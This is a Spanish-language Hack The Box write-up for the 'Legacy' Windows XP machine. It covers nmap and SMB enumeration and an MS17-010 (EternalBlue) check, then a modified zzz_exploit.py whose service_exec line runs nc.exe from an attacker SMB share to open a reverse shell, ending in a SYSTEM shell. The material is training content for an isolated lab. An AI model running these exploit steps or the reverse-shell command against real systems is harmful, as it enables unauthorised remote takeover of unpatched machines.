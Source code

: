 ```yaml
---
cover: ../../../.gitbook/assets/Legacy.png
coverY: 0
---
```


# Legacy

## Reconocimiento

Primero vamos a probar si tenemos conexión con la maquina a través de el protocolo **ICMP**

```shell
> ping -c 1 10.10.10.4
PING 10.10.10.4 (10.10.10.4) 56(84) bytes of data.
64 bytes from 10.10.10.4: icmp_seq=1 ttl=127 time=59.9 ms

--- 10.10.10.4 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 59.943/59.943/59.943/0.000 ms
```

Escaneamos todo el rango de puertos abiertos de la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4

PORT    STATE SERVICE      REASON
135/tcp open  msrpc        syn-ack ttl 127
139/tcp open  netbios-ssn  syn-ack ttl 127
445/tcp open  microsoft-ds syn-ack ttl 127
```

Con los puertos abiertos vamos a escanear las versiones y lanzar scripts básicos de reconocimiento

```shell
> nmap -sCV -p135,139,445 10.10.10.4

PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m15s, median: 4d22h57m39s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:2d:42 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
```

### Puerto 445 (smb)

```shell
> crackmapexec smb 10.10.10.4
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
> crackmapexec smb 10.10.10.4 --shares
SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
SMB         10.10.10.4      445    LEGACY           [-] Error enumerating shares: SMB SessionError: 0x5b
> smbclient -L 10.10.10.4 -N
session setup failed: NT_STATUS_INVALID_PARAMETER
```

Cuando intentamos enumerar no encontramos nada o falla, pero vemos que es un Windows XP y los windows ya algo antiguos suelen ser vulnerables al **eternalblue**

Vamos a buscar con **nmap** si es vulnerable al **eternalblue**

```shell
> locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u # Filtrar categorias de los scripts
"auth"
"broadcast"
"brute"
"default"
"discovery"
"dos"
"exploit"
"external"
"fuzzer"
"intrusive"
"malware"
"safe"
"version"
"vuln"
```

Y lanzamos el conjunto de **vuln** y **safe** para el puerto **smb** para ver si es **vulnerable** al eternal blue

```shell
> nmap --script "vuln and safe" -p445 10.10.10.4

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
```

Buscamos el **ms17-010** en google y nos clonamos el repo de github y con checker.py mirara si tiene algún named pipe en estado **OK**

```shell
> git clone https://github.com/worawit/MS17-010
> cd MS17-010
> python2 checker.py 10.10.10.4
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

Pues tenemos ejecución remota de comandos ahora lo que haremos es en otra ventana estar en escucha con netcat y compartir un recurso compartido por smb

```shell
> rlwrap nc -lvnp <puerto>
```

```shell
> smbserver.py smbFolder $(pwd) # Donde este el nc.exe
```

En el exploit **zzz\_exploit.py** cambiaremos la siguiente linea para poder a través de el recurso compartido ejecutar **nc.exe** en la máquina victima para poder enviar una reverse shell

```python
def smb_pwn(conn, arch):
    #smbConn = conn.get_smbconnection()
    #print('creating file c:\\pwned.txt on the target')
    #tid2 = smbConn.connectTree('C$')
    #fid2 = smbConn.createFile(tid2, '/pwned.txt')
    #smbConn.closeFile(tid2, fid2)
    #smbConn.disconnectTree(tid2)
    #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
    service_exec(conn, r'cmd /c \\<tu-ip>\smbFolder\nc.exe -e cmd <tu-ip> <tu-puerto>')
    # Note: there are many methods to get shell over SMB admin session
    # a simple method to get shell (but easily to be detected by AV) is
    # executing binary generated by "msfvenom -f exe-service ..."
```

Con todo esto echo pasemos a ejecutar el **zzz\_exploit.py**

```shell
> python2 zzz_exploit.py
zzz_exploit.py <ip> [pipe_name]
> python2 zzz_exploit.py 10.10.10.4 spoolss
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x86135da8
SESSION: 0xe10a0390
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe1071148
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe10711e8
overwriting token UserAndGroups
Opening SVCManager on 10.10.10.4.....
Creating service VSez.....
Starting service VSez.....
The NETBIOS connection with the remote host timed out.
Removing service VSez.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

Y recibimos la **reverse shell** con el usuario **administrador**

<pre class="language-shell"><code class="lang-shell"><strong>> rlwrap nc -lvnp 4444
</strong>listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.4] 1048
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

\> whoami
nt authority\system
</code></pre>
